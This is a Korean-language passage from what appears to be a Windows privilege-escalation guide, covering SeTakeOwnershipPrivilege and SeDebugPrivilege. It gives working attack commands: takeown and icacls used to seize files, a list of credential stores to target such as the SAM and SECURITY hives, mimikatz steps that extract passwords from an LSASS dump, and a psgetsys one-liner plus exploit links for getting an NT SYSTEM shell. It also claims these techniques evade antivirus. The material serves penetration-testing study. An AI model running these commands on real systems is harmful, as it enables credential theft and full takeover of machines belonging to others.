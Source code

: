 ### SeTakeOwnershipPrivilege

이는 **SeRestorePrivilege**와 유사합니다. 이 특권의 주요 기능은 프로세스가 **객체의 소유권을 가정**할 수 있도록 하여, WRITE_OWNER 접근 권한을 제공함으로써 명시적인 재량적 접근 요구 사항을 우회하는 것입니다. 이 과정은 먼저 쓰기 목적으로 의도된 레지스트리 키의 소유권을 확보한 다음, 쓰기 작업을 가능하게 하기 위해 DACL을 변경하는 것을 포함합니다.
```bash
takeown /f 'C:\some\file.txt' #Now the file is owned by you
icacls 'C:\some\file.txt' /grant <your_username>:F #Now you have full access
# Use this with files that might contain credentials such as
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software
%WINDIR%\repair\security
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
c:\inetpub\wwwwroot\web.config
```
### SeDebugPrivilege

이 권한은 **다른 프로세스를 디버그**할 수 있게 하며, 메모리에서 읽고 쓸 수 있습니다. 대부분의 안티바이러스 및 호스트 침입 방지 솔루션을 회피할 수 있는 메모리 주입을 위한 다양한 전략을 이 권한으로 사용할 수 있습니다.

#### Dump memory

[ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)를 사용하여 **프로세스의 메모리**를 캡처할 수 있습니다. 특히, 이는 사용자가 시스템에 성공적으로 로그인한 후 사용자 자격 증명을 저장하는 **로컬 보안 권한 하위 시스템 서비스 ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service))** 프로세스에 적용될 수 있습니다.

그런 다음 이 덤프를 mimikatz에 로드하여 비밀번호를 얻을 수 있습니다:
```
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```
#### RCE

`NT SYSTEM` 셸을 얻고 싶다면 다음을 사용할 수 있습니다:

* ****[**SeDebugPrivilege-Exploit (C++)**](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)****
* ****[**SeDebugPrivilegePoC (C#)**](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)****
* ****[**psgetsys.ps1 (Powershell Script)**](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1)****
```powershell
# Get the PID of a process running as NT SYSTEM
import-module psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>)
```
## 권한 확인
```
whoami /priv
```
**비활성화된** 토큰은 활성화할 수 있으며, 실제로 _활성화된_ 및 _비활성화된_ 토큰을 악용할 수 있습니다.
